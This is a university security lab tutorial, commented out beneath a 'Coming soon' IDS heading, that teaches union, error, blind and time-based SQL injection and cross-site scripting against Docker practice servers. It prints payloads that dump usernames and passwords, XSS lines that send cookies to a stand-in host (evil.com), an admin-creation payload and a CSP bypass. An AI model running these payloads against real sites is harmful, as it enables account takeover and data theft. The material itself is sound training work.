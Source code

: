 # Lab 5: IDS

Coming soon...

<!-- {% hint style="danger" %}
READ: Any knowledge and techniques presented here are for your learning purposes only. It is **ABSOLUTELY ILLEGAL** to apply the learned knowledge to others without proper consent/permission, and even then, you must check and comply with any regulatory restrictions and laws.
{% endhint %}

## 5. Introduction

SQL injection (SQLi) and Cross-Site Scripting (XSS) are a type of **injection (AS03:2021)** vulnerabilities that have been listed as one of the top 10 web application security risks by OWASP ([OWASP Top 10](https://owasp.org/www-project-top-ten/)). This lab will explore these two types of vulnerabilities on vulnerable web applications and explain how to detect these vulnerabilities via source code review and black box testing.

You will need to use your Kali VM, and we will be using docker to run SQL and XSS servers.

## 5.1 SQLi

In this lab, we will expand on the materials covered in the lectures and provide you with more exercises in various SQLi types.

### 5.1.1 Union-based SQLi Attacks

#### **5.1.1.1 Detecting an SQLi attack vector**

The easiest way to see if some input is not properly santised for a SQL query is by sending a single `'` or `"` character. If the website crashes (sends a 500 HTTP status code) then it is a strong indication that the malicious input has caused a SQL syntax error, which caused the website to crash.

However, if the web application properly handles errors the page would not return a 500 HTTP status code, making the SQLi attack vector harder to detect. Therefore, a more effective way to detect if an input is vulnerable to SQLi is to first discover an input that always returns a result, then try injecting a SQL conditional and see if the same result returns.

For example, a web application executes the following SQL query when you search for items on the store, where `{search}` is replaced with the user's input. The contents of the `items` table is shown below the query.

```sql
SELECT name, description, amount, price FROM items WHERE name LIKE '{search}'
```

_items table_

| name                    | description                              | amount | price  |
| ----------------------- | ---------------------------------------- | ------ | ------ |
| milk crate              | a milk crate stolen from coles           | 20     | 10000  |
| 1L of 4 year old petrol | some petrol siphoned out of a lawn mower | 13     | 600    |
| 1g of dirt              | literally dirt                           | 20000  | 999999 |

If you just searched `milk crate` on the store then it would only show you the results for the item named `milk crate`. However, if you searched `milk crate' AND '1'='1` and it returns with the same results then you have found the attack vector for exploiting the SQLi vulnerability. This is because the input malformed the query to still search for `milk crate` and insert a SQL `AND` conditional that always returns **true** (the malformed query is shown below). However, if the input was not vulnerable then the DB would have searched for `milk crate' AND '1'='1` and returns no results since there are no items with that name (i.e., a prepared statement).

_The malformed query_

```sql
SELECT name, description, amount, price FROM items WHERE name LIKE 'milk crate' AND '1'='1'
```

#### **5.1.1.2 Methodology for exploiting Union-based SQLi**

**Step 1: Finding the number of columns your payload needs to return**

Once you have discovered the vulnerable input to SQLi, the first step is to determine how many columns should be returned by the vulnerable SQL query. This is because when you use `UNION SELECT` to append additional results the number of columns needs to match the number of columns of the original query, otherwise the SQL query will cause an SQL error.

You can determine the number of columns you need by using `ORDER BY` or `GROUP BY` and incrementing the column index until an error or no result is returned.

Using the previous `items` example.

* `milk crate' ORDER BY 1--`: Returns the milk crate result
* `milk crate' ORDER BY 2--`: Returns the milk crate result
* `milk crate' ORDER BY 3--`: Returns the milk crate result
* `milk crate' ORDER BY 4--`: Returns the milk crate result
* `milk crate' ORDER BY 5--`: Returns no results. This is because there is no column with the index 5 in the `items` table and causes an SQL error. Therefore, it indicates that the original query returns 4 columns.

An alternative is using the `UNION SELECT` statement with constant values until an error does not occur.

* `milk crate' UNION SELECT 1--`: Returns no results.
* `milk crate' UNION SELECT 1,2--`: Returns no results.
* `milk crate' UNION SELECT 1,2,3--`: Returns no results.
* `milk crate' UNION SELECT 1,2,3,4--`: Returns the milk crate result and a row with the numbers 1, 2, 3 and 4.
* `milk crate' UNION SELECT 1,2,3,4,5--`: Returns no results.

**Step 2: Leaking Information About the Database Management System**

The next step is to discover what databases are available, the table names in those databases and the columns of those database. For this section, it will be assumed that the database management system is MySQL, since the queries can be different across DB management systems. For more information about SQLi enumeration for other DB management systems check out the [PayloadAllTheThings repository](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection).

On MySQL databases, the **`information_schema`** database stores all of the metadata about databases, tables and columns stored on the MySQL server. The following SQL queries show how you can retrieve this information from the `information_schema`.

```sql
-- Dumps the names of databases
SELECT schema_name FROM information_schema.schemata;

-- Dumps the names of tables from a database called 'storedb'
SELECT table_name FROM information_schema.tables WHERE table_schema = 'storedb';

-- Dumps the columns for the table called 'users'
SELECT column_name FROM information_schema.columns WHERE table_name = 'users';
```

To execute these queries for our SQLi attack, we need to craft our `UNION SELECT` to return 4 columns and also show the columns that we want to view.

```
' UNION SELECT 1,schema_name,3,4 FROM information_schema.schemata--
```

**Step 3: Dumping Information from Tables**

Once you have discovered the tables and columns you want to dump, you then just rewrite your `UNION SELECT` payload to dump those columns you want to view.

eg.

```
' UNION SELECT username,password,3,4 FROM users--
```

### 5.1.2 Union-based SQLi Exercise

We will be using `docker compose` for running the servers during this lab. If you do not have `docker compose` installed follow [Docker's documentation](https://docs.docker.com/compose/install/).

To start this exercise, download [docker-compose.sqli\_union.yml](files/lab6/docker-compose-files/docker-compose.sqli\_union.yml).

```
wget https://github.com/uwacyber/cits3006/raw/2023S2/cits3006-labs/files/lab6/docker-compose-files/docker-compose.sqli_union.yml
```

{% hint style="info" %}
M1/M2 users: you have to make three changes:\
1\. Line 6 - change the image name to `uwacyber/cits3006:sqli-union-arm64`

2\. Line 16 - change the image name to `arm64v8/mysql:8.0.30`

3\. Line 18 - change the platform to `linux/arm64`
{% endhint %}

You can start the servers using one of the following commands that will automatically pull the images and start the containers.

```
sudo docker-compose -f docker-compose.sqli_union.yml up
```

**Make sure when you are done to delete the Docker containers by running the following command**

```
sudo docker-compose -f docker-compose.sqli_union.yml down
```

To complete this exercise, you need to exploit the SQLi union-based vulnerability to retrieve a flag stored on the MySQL database and demonstrate the process to your lab facilitator. All data is stored inside the database called `vulndb`, but you don't know the name of the table or column for where the flag is stored. Therefore, you first need to dump all of the tables in the `vulndb` database, then dump the column names from the table with the flag (the table is obvious when you see the name for it).

{% hint style="danger" %}
**Using `sqlmap` is not allowed!**
{% endhint %}

### 5.1.3 Error-based SQLi Attacks

The only issue with Union-based SQLi is that it relies on the results of the SQL query being shown to the end-user on the website to work. In a number of circumstances, the results of a vulnerable SQL query are never displayed on the website and are only used by the backend web application.

Error-based SQLi attacks are an alternative to Union-based SQLi that exploits verbose error messages that are displayed on a website if a SQL error occurs. An attacker can abuse these error messages to leak out information from the database using the error messages that are shown on the website.

For MySQL servers, the **`updatexml`** is a useful function for causing an SQL error and leaking the result of a different query in the error message. For example, the below payload is an example of using `updatexml` to leak a name of a database from the `information_schema.schemata` table. However, this payload will not always work and you would normally need to experiment on how to leak data using error messages.

```
' AND updatexml(null,concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT 1,1)),null)--
```

### 5.1.4 Error-based SQLi Exercise

For this exercise, download [docker-compose.sqli\_error.yml](files/lab6/docker-compose-files/docker-compose.sqli\_error.yml).

```
wget https://github.com/uwacyber/cits3006/raw/2023S2/cits3006-labs/files/lab6/docker-compose-files/docker-compose.sqli_error.yml
```

{% hint style="info" %}
M1/M2 users: you have to make three changes:\
1\. Line 6 - change the image name to `uwacyber/cits3006:sqli-error-arm64`

2\. Line 16 - change the image name to `arm64v8/mysql:8.0.30`

3\. Line 18 - change the platform to `linux/arm64`
{% endhint %}

Run the Docker containers using the following command.

```
sudo docker-compose -f docker-compose.sqli_error.yml up
```

To complete this exercise, find the flag stored on the database in the error messages.

{% hint style="danger" %}
**Using `sqlmap` is not allowed!**
{% endhint %}

### 5.1.5 Blind-based SQLi Attacks

There are a number of scenarios where a vulnerable SQL query is executed on the backend web application and the results/errors are never directly displayed to the end user. However, if the content on the page changes depending on the results of the vulnerable SQL query then an attacker can still exfiltrate data from the SQL server.

Blind-based SQLi works by executing malicious queries that return a boolean value that impacts the response of the web application to indicate the correct value that is being queried. An example of python code with a vulnerable SQLi query that impacts the content of a page is shown below.

```python
import sqlite3

def count_items(search: str) -> int:
    with sqlite3.connect('/tmp/somedatabase.sqlite') as con
        cur = con.cursor()
        cur.execute("SELECT name FROM items WHERE name LIKE '{search}'".format(search))
        return len(cur.fetchall())
```

In the above code snippet, the actual results of the query are never returned to the end-user and only returned the number of rows. An attacker can use the returned count value to indicate if they have found a true value for a malicious character.

For example, let's say an attacker is trying to dump the password for the `admin` user stored in the `users` table on the database. The attacker will first want to figure out the length of the stored password by brute-forcing the length until the count changes to indicate the correct length has been found. This can be done using the `length` SQL function then executing the query as a parameter for the `length` function (shown below).

```sql
length((SELECT password FROM users WHERE username='admin' LIMIT BY 1))=1
```

The attacker can then determine if the password has a length of 1 character by sending `milk crate' AND length((SELECT password FROM users WHERE username='admin' LIMIT BY 1))=1--` (the malformed query is shown below).

```sql
SELECT name FROM items WHERE name LIKE 'milk crate' AND length((SELECT password FROM users WHERE username='admin' LIMIT BY 1))=1--'
```

If the `admin` password has a length of 1, then the application response will show a count of 1 since 1=1. If the count is 0, then it would indicate that the length of the password is not 1 and the attacker will then check if the length is equal to 2 and so on.

This methodology can also be used to exfiltrate the values of the password by brute-forcing the value of a character in the password until the full password has been leaked. Instead of using the `length` function to exfiltrate the length of the password, you can use the MySQL `substring` function (if the DB management system is MySQL). `substring` returns a substring of a string, for example `substring("hack the planet", 4, 1)` would return the letter `k`. Now let's say that the actual password for the `admin` account is `carrot`. An attacker can retrieve the full value of the payload as shown below:

```
# Count is 0 since the first letter of the password is not 'a'
milk crate' AND substring((SELECT password FROM users WHERE username='admin' LIMIT BY 1), 1, 1)='a'--

# Count is 0 since the first letter of the password is not 'b'
milk crate' AND substring((SELECT password FROM users WHERE username='admin' LIMIT BY 1), 1, 1)='b'--

# Count is 1 since the first letter of the password is 'c'
milk crate' AND substring((SELECT password FROM users WHERE username='admin' LIMIT BY 1), 1, 1)='c'--

# Count is 1 since the second letter of the password is 'a'
milk crate' AND substring((SELECT password FROM users WHERE username='admin' LIMIT BY 1), 2, 1)='a'--

# Count is 0 since the third letter of the password is not 'a'
milk crate' AND substring((SELECT password FROM users WHERE username='admin' LIMIT BY 1), 3, 1)='a'--

...
```

There is one issue with this approach. For MySQL, string searches for non-binary strings (`CHAR`, `VARCHAR` and `TEXT`) using the collation of the comparison operands and are **case insensitive**! However, binary strings (`BINARY`, `VARBINARY` and `BLOB`) compare the numeric values of the bytes and the comparison is **case sensitive**. The following exercise would be constructing a Blind-based SQLi payload that is **case sensitive**.

### 5.1.6 Blind-based SQLi Exercise

For this exercise, download [docker-compose.sqli\_blind.yml](files/lab6/docker-compose-files/docker-compose.sqli\_blind.yml).

```
wget https://github.com/uwacyber/cits3006/raw/2023S2/cits3006-labs/files/lab6/docker-compose-files/docker-compose.sqli_blind.yml
```

{% hint style="info" %}
M1/M2 users: you have to make three changes:\
1\. Line 6 - change the image name to `uwacyber/cits3006:sqli-blind-arm64`

2\. Line 16 - change the image name to `arm64v8/mysql:8.0.30`

3\. Line 18 - change the platform to `linux/arm64`
{% endhint %}

Run the Docker containers using the following command.

```
sudo docker-compose -f docker-compose.sqli_blind.yml up
```

Since SQLi blind-based attacks are an inferred type of attack, [a template proof of concept script has been provided where you only need to fill in the payload](files/lab6/provided-files/sqli\_blind\_template.py). Your payload needs to use format strings and the MySQL function `group_concat` in the functions `exploit` and `get_length` in the provided code.

You should be able to demonstrate the following tasks if asked:

1. Leaking the flag stored on the database using Blind-Based SQLi. **You can use `sqlmap` for this part if your code does not work**.
2. Show your python code and demonstrate it dumping the flag on the database.

{% hint style="danger" %}
**The flag has to match the correct case! So be careful how you construct your SQLi payload.**
{% endhint %}

### 5.1.7 Time-based SQLi Attacks

If the vulnerable SQL query does not show any results or alter the response, then a time-based SQLi attack is required. Time-based is similar to Blind-based SQLi, but instead of altering the response, you cause the web application to **sleep** when you find the correct value and delay the response from the website.

In SQL you can write an **if** statement using the MySQL function `IF`. The below SQLi payload queries if the first character of the `admin` password is `a` and sleeps for 3 seconds if it is `a`.

```
' AND IF(substring((SELECT password FROM users WHERE username='admin' LIMIT BY 1), 2, 1)='a', SLEEP(3), 0)--
```

### 5.1.8 Time-based SQLi Exercise

For this exercise, download [docker-compose.sqli\_time.yml](files/lab6/docker-compose-files/docker-compose.sqli\_time.yml).

```
wget https://github.com/uwacyber/cits3006/raw/2023S2/cits3006-labs/files/lab6/docker-compose-files/docker-compose.sqli_time.yml
```

{% hint style="info" %}
M1/M2 users: you have to make three changes:\
1\. Line 6 - change the image name to `uwacyber/cits3006:sqli-time-arm64`

2\. Line 16 - change the image name to `arm64v8/mysql:8.0.30`

3\. Line 18 - change the platform to `linux/arm64`
{% endhint %}

Run the Docker containers using the following command.

```
sudo docker-compose -f docker-compose.sqli_time.yml up
```

Since SQLi time-based attacks are an inferred type of attack, [a template proof of concept script has been provided where you only need to fill in the payload](files/lab6/provided-files/sqli\_blind\_template.py). Your payload needs to use format strings and the MySQL function `group_concat` in the functions `exploit` and `get_length` in the provided code.

You should be able to demonstrate the following tasks:

1. Leaking the flag stored on the database using Time-Based SQLi. **You can use `sqlmap` for this part if your code does not work**.
2. Show your python code and demonstrate it dumping the flag on the database.

{% hint style="danger" %}
**The flag has to match the correct case! So be careful how you construct your SQLi payload.**
{% endhint %}

## 5.2 XSS Attacks

XSS attacks exploit an HTML injection vulnerability that executes malicious javascript that can access a victim's cookies, session tokens or other sensitive information from a trusted source. In this lab, we will explore exploiting client-side XSS vulnerabilities.

### 5.2.1 Exploiting a Basic XSS Vulnerability

The simplest attack vector for an XSS attack is to see if `<script>alert(123)</script>` causes an alert to be displayed. If it does then the page is not filtering the `<` and `>` or `<script>`, enabling malicious javascript to be executed.

If the session cookies have the `HttpOnly` attribute to `false`, then you can read the cookie values using `document.cookie`. Below are some example XSS payloads for exfiltrating session cookie information to a remote server at `https://evil.com`.

```html
<!-- Using the fetch API (not supported on older browsers) -->
<script>fetch("https://evil.com/?nomnom="+document.cookie);</script>

<!-- Using the XMLHttpRequest API -->
<script>request = new XMLHttpRequest();request.open("GET", "https://evil.com/?nomnom="+document.cookie);request.send()</script>

<!-- Redirecting to evil.com -->
<script>window.location = "https://evil.com/?nomnom="+document.cookie</script>
```

However, if the session cookies have `HttpOnly` attribute set to `true` you can still perform actions as the victim on the vulnerable website. Below is an example XSS payload that adds a new admin user on the website for some vulnerable web applications if the victim is an admin user.

```html
<script>
    fetch("/api/users/add_admin",{
        method: 'post',
        headers: {'Content-Type':'application/json'},
        body: JSON.stringify({"username": "evil-user-mwahaha"}) 
    });
</script>
```

### 5.2.2 Basic XSS Attack Exercise

For this exercise, download [docker-compose.xss\_basic.yml](files/lab6/docker-compose-files/docker-compose.xss\_basic.yml).

{% hint style="warning" %}
The bot (xss-bot service) is used to insert the flag as the document cookie via the chrome browser driver. So you are required to use the Chrome browser for this exercise.

If you don't or cannot install Chrome browser (e.g., M1/M2 users), you can manually insert the cookie yourself to test the XSS attack working:

* Right-click on the browser page -> inspect -> Storage -> Cookies -> Add item -> modify the name and value to something that you can recognise later.

Similarly, if the bot isn't working as intended, you can insert the cookies manually.
{% endhint %}

```
wget https://github.com/uwacyber/cits3006/raw/2023S2/cits3006-labs/files/lab6/docker-compose-files/docker-compose.xss_basic.yml
```

{% hint style="info" %}
M1/M2 users: you have to do the following 5 tasks:

1\. Run the amd64 emulator -\
`sudo docker run --privileged --rm tonistiigi/binfmt --install amd64`\
2\. Line 6 - change the image name to `uwacyber/cits3006:xss-server-no-csp-arm`

3\. Line 29 - change the image name to `arm64v8/mysql:8.0.30`

4\. Line 31 - change the platform to `linux/arm64`

5\. Remove the `xss-bot` service in the `yml` file (as described above, the bot works with the Chrome browser, which cannot be installed on ARM processors)
{% endhint %}

Run the Docker containers using the following command.

<pre><code><strong>sudo docker-compose -f docker-compose.xss_basic.yml up
</strong></code></pre>

Next, we will be running a basic HTTP server for receiving the exfiltrated cookie for the admin user. You can do this using the following command that will start the `python` HTTP server.

```
python3 -m http.server 80
```

Now, perform XSS to steal the server's document cookies.

### 5.2.3 Exploiting XSS Using Other HTML Tags

Sometimes a web application will have a filter implemented that removes `<script>` from the user input or the Content-Security-Policy has disabled inline execution of JavaScript code (discussed more in section 6.2.3). However, this filter is not sufficient to prevent an XSS attack since there are large number of other HTML tags that can also execute JavaScript. For example, the `<img>` tag has an `onerror` attribute that executes JavaScript code if an error occurs trying to load the image. So you can still trigger the XSS vulnerability with the following payload.

```html
<img src=x onerror="window.location='https://evil.com/?nomnom='+document.cookie" />
```

Below are a list of other XSS payloads using other HTML tags beside `<script>` and more listed [here](https://raw.githubusercontent.com/pgaijin66/XSS-Payloads/master/payload/payload.txt).

```html
<svg onload="window.location='https://evil.com/?nomnom='+document.cookie" />
<div onpointerover="window.location='https://evil.com/?nomnom='+document.cookie">MOVE HERE</div>
<body onload="window.location='https://evil.com/?nomnom='+document.cookie"></body>
<video src=_ onloadstart="window.location='https://evil.com/?nomnom='+document.cookie" />
```

### 5.2.4 XSS Using Other HTML Tags Exercise

For this execise, download [docker-compose.xss\_alt\_tag.yml](files/lab6/docker-compose-files/docker-compose.xss\_alt\_tag.yml).

```
wget https://github.com/uwacyber/cits3006/raw/2023S2/cits3006-labs/files/lab6/docker-compose-files/docker-compose.xss_alt_tag.yml
```

{% hint style="info" %}
M1/M2 users: make the same changes as you did in Section 6.2.2.
{% endhint %}

Run the Docker containers using the following command.

<pre><code><strong>sudo docker-compose -f docker-compose.xss_alt_tag.yml up
</strong></code></pre>

Now perform XSS without the `<script>` HTML tag.

### 5.2.3 Bypassing Content Security Policy Protections

The Content-Security-Policy (CSP) is a response header sent by web applications to browsers that define trusted sources for web content and is a recommended mitigation strategy against XSS attacks. The web browser will read the Content-Security-Policy and rejects rendering any components that do not comply with the policy. An example of a CSP configuration that will only allow rendering content hosted on the website is shown below.

```
Content-Security-Policy: default-src 'self';
```

The downside of Content-Security-Policies is that a secure configuration can significantly impact what can be rendered on the website. Therefore, most websites specify exemptions for remote resources that can be loaded. For example, the CSP below has allowed `unsafe-eval` for JavaScript code on `https://cdnjs.cloudflare.com/`.

```
Content-Security-Policy: default-src 'self';script-src 'self' 'unsafe-eval' https://cdnjs.cloudflare.com/;style-src 'self' 'unsafe-inline' https://unpkg.com/nes.css/ https://fonts.googleapis.com/;font-src 'self' https://fonts.gstatic.com/;img-src 'self' data:;child-src 'none';object-src 'none'
```

However, an attacker can bypass the above CSP since it does not specify exact JavaScript files from `https://cdnjs.cloudflare.com/` and vulnerable code to XSS that is hosted on `https://cdnjs.cloudflare.com/` can be loaded. The below payload bypasses the CSP by loading the XSS vulnerable AngularJS version 1.4.6 JavaScript file then executing the payload using a `<div>` tag.

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };window.location = "https://evil.com/?nomnom="+document.cookie;//');}} </div>
```

[HackTricks documents a large variety of methods for bypassing Content-Security-Policy headers using third-party endpoints.](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)

### 5.2.5 Bypassing CSP Exercise (Enthusiastics only)

For this exercise, download [docker-compose.xss\_csp.yml](files/lab6/docker-compose-files/docker-compose.xss\_csp.yml).

```
wget https://github.com/uwacyber/cits3006/raw/2023S2/cits3006-labs/files/lab6/docker-compose-files/docker-compose.xss_csp.yml
```

{% hint style="info" %}
M1/M2 users: make the same changes as you did in Section 6.2.2.
{% endhint %}

Run the Docker containers using the following command.

```
sudo docker-compose -f docker-compose.xss_csp.yml up
```

This exercise is a lot harder than the other XSS exercises. The website now uses the following Content-Security Policy (you can see it by viewing the HTML content on the website).

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' https://code.jquery.com/ https://www.googleapis.com; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://fonts.gstatic.com/; font-src https://fonts.googleapis.com https://fonts.gstatic.com/;">
```

You need to research a method to exploit the XSS vulnerability with this CSP. Below are some things to consider.

1. The CSP prevents exfiltrating data using `fetch`.
2. One of the allowed sources has a JSONP endpoint that you can use in your exploit.
3. If you have the correct method but it is not working, **make sure you have a proper URL encoding in your payload**! For example, the `+` in a URL decodes to `.` (i.e., a full stop).

## 5.3. Conclusion

In this lab, we explored ways to exploit web vulnerabilities, particularly SQLi and XSS, to gain unauthorized access to data and systems.

Next up: Active Directory.

{% hint style="info" %}
Please preview the next lab setup guide, as you will need to set up a new VM - Windows Server 2019. The size of the ISO is about 5GB, so it is a good idea to download that beforehand and get started on its installation (took me half an hour to get it set up FYI).
{% endhint %}

{% hint style="warning" %}
M1/M2 users: setting up the Windows Server 2019 is extremely slow due to emulation (\~2 hours), but it is a good learning exercise. So you should try doing this before coming to the lab.

I also provide you a preconfigured Windows Server 2019 image for UTM that you can download (on Teams), but please note the image size is 10GB.
{% endhint %}

Credit: Thanks to Alex Brown for making this a fun lab! -->
